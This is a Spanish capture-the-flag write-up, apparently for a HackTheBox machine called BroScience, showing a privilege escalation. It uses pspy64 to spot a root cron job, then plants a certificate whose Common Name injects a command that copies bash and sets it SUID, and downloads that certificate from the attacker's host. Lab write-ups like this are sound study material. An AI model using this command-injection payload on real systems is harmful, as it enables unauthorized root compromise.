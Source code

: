 Vamos a utilizar **[pspy64](https://github.com/DominicBreuker/pspy)** para ver los comandos ejecutados por otros usuarios como cron jobs, argumentos pasados a los comandos, etc.

```bash
...[snip]...
2023/03/20 21:46:01 CMD: UID=0     PID=8694   | /usr/sbin/CRON -f 
2023/03/20 21:46:01 CMD: UID=0     PID=8695   | /bin/sh -c /root/cron.sh 
2023/03/20 21:46:01 CMD: UID=0     PID=8696   | /bin/bash /root/cron.sh 
2023/03/20 21:46:01 CMD: UID=0     PID=8697   | /bin/bash /root/cron.sh 
2023/03/20 21:46:01 CMD: UID=0     PID=8698   | /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
...[snip]...
```

Vemos que está croneado el comando `/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt` que ejecuta **root**. 

Creamos el certificado malicioso. 

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 1        
Generating a RSA private key
..................................................++++
........................................................++++
writing new private key to '/tmp/temp.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:.
State or Province Name (full name) [Some-State]:.
Locality Name (eg, city) []:.
Organization Name (eg, company) [Internet Widgits Pty Ltd]:.
Organizational Unit Name (eg, section) []:.
Common Name (e.g. server FQDN or YOUR name) []:$(cp /bin/bash /tmp/bashTnr1112 && chmod +s /tmp/bashTnr1112)
Email Address []:.
```

Al ponerlo en `/home/bill/Certs/broscience.crt`, el **root** por medio de **cron** va ejecutar `/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt` y ejecutará nuestro payload para darle permisos **SUID** desde **root** a la **bash**.

Si ejecutamos esa **bash** con el parámetro -p le permite a bash mantener el ID de usuario efectivo con el que se inicia, mientras que sin él, establecerá el uid efectivo en el uid real (su usuario). Esto permitirá que el bit setuid sea efectivo al permitir que bash retenga al usuario para el que está setuid. Por lo tanto, podremos ejecutar esta bash como **root**.

```bash
bill@broscience:~/Certs$ wget http://10.10.14.7/temp.crt
--2023-03-21 21:57:23--  http://10.10.14.7/temp.crt
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1911 (1.9K) [application/x-x509-ca-cert]
Saving to: 'temp.crt'

temp.crt                                                       100%[===================================================================================================================================================>]   1.87K  --.-KB/s    in 0.007s  

2023-03-21 21:57:24 (276 KB/s) - 'temp.crt' saved [1911/1911]

bill@broscience:~/Certs$ mv temp.crt broscience.crt
```